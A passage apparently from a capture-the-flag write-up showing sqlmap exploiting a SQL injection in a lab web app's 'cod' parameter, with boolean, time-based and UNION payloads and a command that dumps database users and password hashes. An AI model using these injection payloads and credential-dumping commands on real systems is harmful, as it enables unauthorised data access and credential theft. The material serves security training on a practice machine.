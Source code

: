         Type: UNION query
        Title: Generic UNION query (NULL) - 7 columns
        Payload: cod=-1250 UNION ALL SELECT CONCAT(0x71716a6b71,0x5a79784d6b726747766a5361735841666d6569556e4671434363656e617a77797162477578515647,0x716b717871),NULL,NULL,NULL,NULL,NULL,NULL-- FOKX
    ---
    [15:03:41] [INFO] the back-end DBMS is MySQL
    web server operating system: Linux Debian 9.0 (stretch)
    web application technology: Apache 2.4.25
    back-end DBMS: MySQL >= 5.0.12
    [15:03:41] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.10.143'
    
    [*] ending @ 15:03:41 /2019-06-28/
    

I can use this to dump the sql username and password:

    
    
    root@kali# sqlmap -u http://10.10.10.143:80/room.php?cod=1 --random-agent --level 1 --risk 1  --batch --users --passwords
            ___
           __H__
     ___ ___[.]_____ ___ ___  {1.3.4#stable}
    |_ -| . [.]     | .'| . |
    |___|_  [(]_|_|_|__,|  _|
          |_|V...       |_|   http://sqlmap.org
    
    [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
    
    [*] starting @ 15:05:59 /2019-06-28/
    
    [15:05:59] [INFO] fetched random HTTP User-Agent header value 'Opera/9.80 (Windows NT 5.1; U; ru) Presto/2.5.22 Version/10.50' from file '/usr/share/sqlmap/txt/user-agents.txt'
    [15:06:00] [INFO] resuming back-end DBMS 'mysql'
    [15:06:00] [INFO] testing connection to the target URL
    sqlmap resumed the following injection point(s) from stored session:
    ---
    Parameter: cod (GET)
        Type: boolean-based blind
        Title: AND boolean-based blind - WHERE or HAVING clause
        Payload: cod=1 AND 8643=8643
    
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind
        Payload: cod=1 AND SLEEP(5)
    
        Type: UNION query
        Title: Generic UNION query (NULL) - 7 columns
        Payload: cod=-1250 UNION ALL SELECT CONCAT(0x71716a6b71,0x5a79784d6b726747766a5361735841666d6569556e4671434363656e617a77797162477578515647,0x716b717871),NULL,NULL,NULL,NULL,NULL,NULL-- FOKX
    ---
    [15:06:00] [INFO] the back-end DBMS is MySQL
    web server operating system: Linux Debian 9.0 (stretch)
    web application technology: Apache 2.4.25
    back-end DBMS: MySQL >= 5.0.12
    [15:06:00] [INFO] fetching database users
    [15:06:00] [INFO] used SQL query returns 28 entries
    [15:06:00] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:00] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:00] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:00] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:00] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:00] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:00] [INFO] retrieved: ''DBadmin'@'localhost''